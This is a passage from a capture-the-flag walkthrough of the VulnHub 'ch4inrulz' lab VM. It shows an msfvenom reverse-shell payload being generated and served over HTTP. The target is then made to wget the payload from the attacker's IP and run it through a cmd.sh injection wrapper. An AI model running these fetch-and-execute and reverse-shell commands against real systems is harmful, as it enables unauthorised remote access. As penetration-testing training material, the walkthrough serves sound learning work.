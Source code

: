 Too bad the VM has the traditional `nc` or BSD `nc`. Otherwise, we could have gotten a reverse shell with `nc`. Nonetheless, we can transfer a reverse shell over since `wget` is available.

On the attacking machine, generate a reverse shell with `msfvenom`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.20.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

Next, host the reverse shell with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```

Using `cmd.sh`, run this command.

```
# ./cmd.sh "wget -O /tmp/rev 192.168.20.128/rev"
```

![b7722a6c.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/b7722a6c.png)

The transfer is successful. Next, make `/tmp/rev` executable.

```
# ./cmd.sh "chmod +x /tmp/rev"
# ./cmd.sh "ls -l /tmp/rev"
-rwxr-xr-x 1 www-data www-data 194 Sep  2 10:06 /tmp/rev
```

Lastly, before we run the reverse shell, we need to set up our `nc` listener to catch it on the attacking machine.

```
# ./cmd.sh /tmp/rev
```

![8766d43e.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/8766d43e.png)


[1]: https://www.vulnhub.com/entry/ch4inrulz-101,247/
[2]: https://twitter.com/@mohammadaskar2
[3]: https://www.vulnhub.com/